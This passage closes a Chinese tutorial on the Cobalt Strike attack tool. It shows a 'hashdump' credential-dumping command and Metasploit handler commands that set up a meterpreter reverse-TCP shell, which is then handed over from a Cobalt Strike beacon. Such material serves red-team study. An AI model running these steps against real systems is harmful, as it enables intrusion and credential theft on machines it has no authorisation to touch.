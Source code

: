 ```
beacon> hashdump

```

![Alt text](http://drops.javaweb.org/uploads/images/d303b963bc18993164cfa0cc92631c9791bfb54d.jpg)

0x06 与msf联动
===========

* * *

cobalt strike3.0 不再使用Metasploit框架而作为一个独立的平台使用，那么怎么通过cobalt strike获取到meterpreter呢，别担心，可以做到的。 首先我们使用msf的reverse_tcp开启监听模式：

```
msf > use exploit/multi/handler 
msf exploit(handler) > set payload windows/meterpreter
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.74.1 
lhost => 192.168.74.1
msf exploit(handler) > set lport 5555
lport => 5555
msf exploit(handler) > exploit -j

```

之后使用Cobalt Strike创建一个windows/foreign/reverse_tcp Listener：

![Alt text](http://drops.javaweb.org/uploads/images/79d8a225afef4733753ddcee002e360fc196db78.jpg)

其中ip为msf的ip地址，端口为msf所监听的端口。  
然后选中计算机，右键->Spawn:

![Alt text](http://drops.javaweb.org/uploads/images/ebe489b2b7bc583befdb19fdd82e2ed33127cec8.jpg)

选择刚刚创建的监听器：

![Alt text](http://drops.javaweb.org/uploads/images/9c2510cd0a2e446884b17cf8967224f1da9b1271.jpg)

可以看到成功获取了meterpreter回话：

![Alt text](http://drops.javaweb.org/uploads/images/90637e9541ccf6008a780473bba4fbe9ef6ecc76.jpg)

0x07 小结
=======

* * *

此次测试使用`windows/beacon_http/reverse_http`来进行，具体DNS的监听器请参考luom所写[Cobalt Strike 之团队服务器的搭建与DNS通讯演示](http://drops.wooyun.org/tools/1475)，本篇文章只是介绍了Cobalt Strike的部分功能，如有错误，请各位大牛指正，关于Cobalt Strike其他的功能小伙伴们可以自己研究，如果可能的话，我也会对其进行补充。希望对各位小伙伴有用。

本文由evi1cg原创并首发于乌云drops，转载请注明